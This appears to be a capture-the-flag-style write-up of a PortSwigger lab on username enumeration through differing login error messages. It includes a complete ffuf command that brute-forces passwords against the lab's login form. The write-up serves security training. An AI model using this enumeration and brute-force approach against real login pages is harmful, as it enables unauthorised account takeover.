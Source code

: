 # Username enumeration via different responses

**Lab Url**: [https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)

![Lab Description](img/lab-description.png)

## Objective

The lab is vulnerable to username enumeration and password brute-force attacks. To solve this lab, we must find a valid username and password and access the user's account page.

The username and password lists are provided in the lab description.

## Solution

The login page renders an `Invalid username` error if the username is invalid. We have to use the `enumerate_username.py` script to find a valid username.

After finding a valid `username` use the below script to extract `password`.

```bash
ffuf -X POST \
    -u https://YOUR-LAB-ID.web-security-academy.net/login \
    -d "username=YOUR-FOUND-USERNAME&password=FUZZ" \
    -w passwords.txt \
    -mc 302
```

Now log in with the retrieved username and password to solve the lab.

![Lab Solved](img/lab-solved.png)
